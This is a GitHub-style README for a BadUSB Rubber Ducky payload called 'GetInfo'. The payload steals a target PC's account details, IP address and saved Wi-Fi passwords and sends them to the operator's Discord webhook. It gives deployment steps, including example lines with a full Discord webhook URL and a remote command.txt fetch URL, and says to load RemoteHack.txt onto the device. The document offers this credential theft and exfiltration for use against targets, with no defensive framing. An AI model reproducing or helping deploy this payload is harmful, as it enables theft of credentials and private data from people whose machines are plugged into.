 # GetInfo - BadUSB Rubber Ducky Script

This BadUSB Rubber Ducky script is designed to swiftly collect information from a target's PC and transmit it to your personal Discord server. The script runs for approximately 3 seconds, gathering data such as username, computer name, disk location, account details, OS version, IP address, and previously signed-in Wi-Fi networks with passwords.

## How to Set Up


1. Duplicate this GitHub repository to host it online for accessibility.


2. Edit the code in the duplicated `getinfo.ps1` file to update the Discord webhook API credentials at line 7 and the URL to `command.txt` at line 9 with your specific information,
EXAMPLE:
$hookUrl = "https://discord.com/api/webhooks/1200265949126142156/HOwhnUPElKBeBX7_j7WMG8-jMlimPoAM3pTlc-uZMbCESmAPCdzF7YWq1DEYqxxuroKj"
$url = "https://github.com/6uard1an/Cool-FLipper-Zero-BadUSB-s/raw/main/command.txt"


4. On your BadUSB Rubber Ducky device, install the script from `RemoteHack.txt`.


5. Replace `'link-to/getinfo.ps1'` in the script with the custom hosted URL of your `.ps1` file within the duplicated GitHub repository.


5.The updated RemoteHack.txt is your new payload file.
By following these steps, you can deploy and customize the GetInfo script for your specific use case. Ensure that the Discord webhook and the URL to `command.txt` in your duplicated GitHub repository are correctly configured in the `.ps1` file for the script to function as intended, securely transmitting gathered information to your Discord server.

